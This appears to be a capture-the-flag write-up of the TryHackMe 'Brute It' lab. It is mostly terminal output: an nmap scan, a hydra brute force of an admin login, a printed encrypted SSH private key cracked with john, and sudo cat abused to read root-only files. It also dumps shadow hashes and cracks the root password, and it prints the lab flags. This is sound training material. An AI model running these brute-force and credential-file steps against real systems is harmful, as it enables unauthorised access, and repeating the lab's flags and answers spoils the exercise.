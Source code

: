 #+TITLE: https://tryhackme.com/room/bruteit

* nmap
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ cat nmap/scan.nmap
# Nmap 7.91 scan initiated Tue Nov 24 22:15:09 2020 as: nmap -sC -sV -oA nmap/scan 10.10.75.72
Nmap scan report for 10.10.75.72
Host is up (0.099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 24 22:15:33 2020 -- 1 IP address (1 host up) scanned in 24.08 seconds

#+end_src

* /admin
[[file:.home/m/Pictures/bruteit/Screenshot%20from%202020-11-25%2000-12-16.png]]

* hydra
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ hydra -l admin -P ~/.cache/yay/rockyou/rockyou.txt 10.10.75.72 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -v
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-24 22:11:08
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.75.72:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.75.72/admin/panel
[VERBOSE] Page redirected to http://10.10.75.72/admin/panel/
[80][http-post-form] host: 10.10.75.72   login: admin   password: xavier
[STATUS] attack finished for 10.10.75.72 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-24 22:11:34

#+end_src

* id_rsa
[[file:.home/m/Pictures/bruteit/Screenshot%20from%202020-11-24%2022-28-12.png]]
- -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----

* john
- password
  : rockinroll
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ john forjohn --wordlist=/home/m/.cache/yay/rockyou/rockyou.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (/home/m/Desktop/haxxx/ctf/thm/boxes/bruteit/id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2020-11-24 22:26) 0.1742g/s 2498Kp/s 2498Kc/s 2498KC/s *7¡Vamos!
Session completed

#+end_src

* user.txt
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ ssh -i id_rsa john@10.10.75.72
The authenticity of host '10.10.75.72' (10.10.75.72) cant be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.75.72' (ECDSA) to the list of known hosts.
Enter passphrase for key id_rsa:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Nov 25 03:34:48 UTC 2020

  System load:  0.0                Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 44%                IP address for eth0: 10.10.75.72
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
john@bruteit:~$
john@bruteit:~$
john@bruteit:~$ clear
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
john@bruteit:~$

#+end_src

* root.txt
#+begin_src bash

john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

#+end_src

* unshadow
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ unshadow passwd.hash shadow.hash > unshadowed
┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ cat unshadowed
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:*:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:*:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:*:102:106::/home/syslog:/usr/sbin/nologin
messagebus:*:103:107::/nonexistent:/usr/sbin/nologin
_apt:*:104:65534::/nonexistent:/usr/sbin/nologin
lxd:*:105:65534::/var/lib/lxd/:/bin/false
uuidd:*:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:*:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:*:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:*:109:1::/var/cache/pollinate:/bin/false
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:1000:1000:THM Room:/home/thm:/bin/bash
sshd:*:110:65534::/run/sshd:/usr/sbin/nologin
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:1001:1001:john,,,:/home/john:/bin/bash
#+end_src

* root_password
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ john --show unshadowed
root:football:0:0:root:/root:/bin/bash

1 password hash cracked, 2 left

#+end_src
